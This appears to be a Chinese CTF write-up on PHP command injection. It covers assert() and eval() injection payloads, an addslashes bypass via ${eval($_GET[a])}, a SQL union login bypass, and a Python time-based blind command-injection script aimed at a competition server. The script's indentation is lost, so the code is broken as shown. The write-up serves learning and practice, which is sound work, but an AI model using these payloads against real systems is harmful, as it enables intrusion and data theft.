


命令注入
额 没啥，类似于一句话木马的官方话吧
常见php命令注入函数
eval(),，assert(), system()，preg_replace(), create_function, call_user_func, call_user_func_array，array_map()，反引号，ob_start()，exec()，shell_exec()，passthru()，escapeshellcmd()，popen()，proc_open()，pcntl_exec()
eval()函数可以把字符串按照PHP代码来执行，换句话说，就是可以动态地执行PHP代码，使用eval函数需要注意的是：输入的字符串必须是合法的PHP代码，且必须以分号结尾。
<?php
$myvar = "varname";
$x = $_GET['arg'];
eval("\$myvar = $x;");
?>poc/index.php?arg=1;phpinfo()
题目：
jarvios的babyphp
可以目录扫描一下，有.git文件夹泄露
通过githack还原源码
审计发现下面漏洞
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");首先加上前缀后缀，第二行规则不允许出现两个点，.php已经出现了一个点，所以page参数允许出现点，第二行strpos(xxx,zzz)在xxx中寻找zzz，如果成功返回字符位置，如果没有则返回false就可以注入了
比如执行phpinfo();
我们传入page=') or phpinfo();#,如此$file=templates/') or phpinfo();#.php,为了讲解我没转义，大家需要自己先urldecode
然后下面变成
assert("strpos('templates/') or phpinfo();#.php', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('templates/') or phpinfo();#.php')") or die("That file doesn't exist!");我觉得不行啊，#后面注释后句子变成
assert("file_exists('templates/') or phpinfo();
#.php')") or die("That file doesn't exist!");都没闭合

这谁顶得住的，我自己构造page=') or phpinfo();")#,缺报错了，黑人问号jpg,我觉得应该是我有语法错误了
！！！以上理解是错误的！！
从这句分析
assert("strpos('templates/') or phpinfo();#.php', '..') === false") or die("Detected hacking attempt!");其实其中的#号没有将后面的注释只是将语句注释了，所以同义为
assert("strpos('templates/') or phpinfo();") or die("Detected hacking attempt!");2333 awsl-所以遇到问题本地多测试一下很重要-ε=ε=ε=┏(゜ロ゜;)┛
然后就可以为所欲为
page=') or print_r(file_get_contents('templates/flag.php'));#
转码
page=')%20or%20print_r(file_get_contents('templates%2fflag.php'))%3b%23
另外一种构造
page='.system("{PHPCODE}").'比如
page='.system("ls").'
page='.system("cat templates/flag.php;").'ps:system 函数是不需要输出的，只要执行了就会输出来,
其实发现注入第二个也是可以的-php真玄学
题目
一、神塔么shell注入
一个题先绕过
$sql="SELECT username,password FROM admin WHERE username='".$username."'"; if (!empty($row) && $row['password']===md5($password)){ }payload
username=admin' union select 1,md5(1)%23
password=1然后出现一个shell注入，命令远程会执行，但是没有回显，只有那个一个进程的，盲猜应该是ps -aux | grep {命令}
方法1当然可以直接反弹shell远程，还有一个方法就是shell注入,需要修改一下PHPSESSID
注入语句
c=123;a=`ls`;b='a';if [ ${a:0:1} == $b ];then sleep 2;fiimport requests
url = 'http://123.206.31.85:49165/index.php'
s = requests.session()
allString = '''1234567890~`!@#$%^&*()-_=+[]{};:'"|\,<.>/?qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'''
database = ''
flag = 1
comm =input('输入指令：')
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Referer':'http://123.206.31.85:49165/index.php',
}
cookies = dict(PHPSESSID='d637ecrlrp3ae9jgqqunu97f22')
for i in range(0,100):#根据自身需要改长度，如果空格连续出现四次以上，就说明后续没内容了
for j in allString:
#header = {
#"X-Forwarded-For":"1'+(select case when (ascii(substr(database() from %d for 1))=%d) then sleep(3) else 0 end))#"%(i,ord(j))
#}
#print(j)
if j == "^":
#print('此处有空格')
j = " "
data={'c':"123;a=`"+comm+"`;b=' ';if [ ${a:"+str(i)+":1} == $b ];then sleep 4;fi"}
else:
data={'c':"123;a=`"+comm+"`;b=\'"+str(j)+"\';if [ ${a:"+str(i)+":1} == $b ];then sleep 4;fi"}
r = requests.post(url,data=data,headers=headers,cookies=cookies)
t = r.elapsed.total_seconds()
#print(r.text)
print(database+' '+'the time of '+j+' is '+str(t))
if t >= 4:
database = database + j
print('the '+str(i)+' place of database is '+j)
break
elif t < 4 and j == 'M':
flag = 0
break
if flag == 0 :
break
print('',database)“百度杯”CTF比赛 十月场 hash
通过别的途径获得源码 得到
<?php
if (isset($_GET['val'])) {
$val = $_GET['val'];
eval('$value="' . addslashes($val) . '";');
} else {
die('hahaha!');
}
?>首先 addslashes() 函数
在每个双引号（”）前添加反斜杠：
<?php
$str = addslashes('Shanghai is the "biggest" city in China.');
echo($str);
?>
输出
Shanghai is the \"biggest\" city in China. poc
?val=${eval($_GET[a])}&a=echo `ls`;
?val=${eval($_GET[a])}&a=echo `cat True_F1ag_i3_Here_233.php| base64`;X-Forwarded-For可选地址
192.168.0.0
172.16.0.0
10.0.0.0
127.0.0.0
localhostX-Forwarded-For对应$_SERVER['HTTP_X_FORWARDED_FOR']